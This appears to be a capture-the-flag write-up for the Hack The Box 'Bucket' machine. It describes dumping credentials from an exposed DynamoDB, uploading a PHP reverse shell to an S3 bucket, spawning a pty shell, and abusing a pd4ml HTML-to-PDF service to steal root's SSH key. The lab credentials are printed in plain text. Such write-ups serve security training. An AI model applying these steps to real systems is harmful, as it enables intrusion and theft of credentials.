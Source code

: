 # bucket

## nmap scan

[Scan Results][1]

## Bucket Advertising Platform

Looking at the source of the site we see some reference to a S3 server `s3.bucket.htb`

[Dir Buster bucket.htb][2]
[Dir Buster s3.bucket.htb][3] looking at the directory found we see a DynamoDB web shell. we can use the `aws-cli` suite to dig inside the db.

## AWS Cli

Search for tables entries:

`aws dynamodb list-tables --endpoint-url http://s3.bucket.htb` -> `users`
`aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb` ->

```raw
PASSWORD        Management@#1@#
USERNAME        Mgmt
PASSWORD        Welcome123!
USERNAME        Cloudadm
PASSWORD        n2vM-<_K_Q:.Aa2
USERNAME        Sysadm
```

so we have some accounts: try to login via ssh doesn't work

Continue searching intresting files inside the s3 bucket.

`aws s3 ls --endpoint-url http://s3.bucket.htb/` -> `adserver`
`aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb/` Inside this bucket there is an `index.html` file and a images directory, that resembles the website structure, S3 in fact can be used as webhost also, so we can upload a [php reverse shell][4] inside the bucket.

Upload the shell via

`aws s3 cp exploit/rev.php s3://adserver/rev.php --endpoint-url http://s3.bucket.htb`

After uploaded there a small time window in wich the reverse shell go online and get deleted by the server reset, so can be usefull to use `curl` to start the reverse shell. We can also automate the deploy with a [bash script][5]

## www-data

First of all spawn a bash shell:

`python3 -c "import pty;pty.spawn('/bin/bash')"`

Doing an ls of /home directory we can see there is a user roy, maybe we can use a password found previusly to login via ssh with user roy

And we have user flag: ***roy:n2vM-<_K_Q:.Aa2***

## Roy to Root

[Linpeas scan][6]

As suggested by linpeas we can try to get root via [runc][9] but doesn't work

looking at some intresting file inside the linpeas result seems that there is an other website in `/var/www/bucket-app/` that listen on port 8000. This site does something weird:

```php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```

Seems that when the server recieves a POST request with payload `action` equals to `get_alerts` search inside `DynamoDB` for a table `alerts` and filter any result that have as `title`->`{"S":"Ransomware}`, than put the content `data` inside a file and convert it in an pdf using `pd4ml` java package. The `pd4ml` is an HTML to PDF converter.

During our first analisys we didn't found any `alerts` table inside DynamoDB so we can create the table with an entry that contains malicious html in order to steal the root ssh key.

[Local Root exploit][7]
[Remote Root exploit][8]

And we are done.

[//]: #links
[1]: nmap/bucket.nmap
[2]: bucket-dir.txt
[3]: s3.bucket-dir.txt
[4]: exploit/rev.php
[5]: exploit/deploy.sh
[6]: linpeas.txt
[7]: exploit/root_exploit.sh
[8]: exploit/root_exploit2.sh
[9]: https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/ee137455c9f1e4b9d295380cc6483251.png)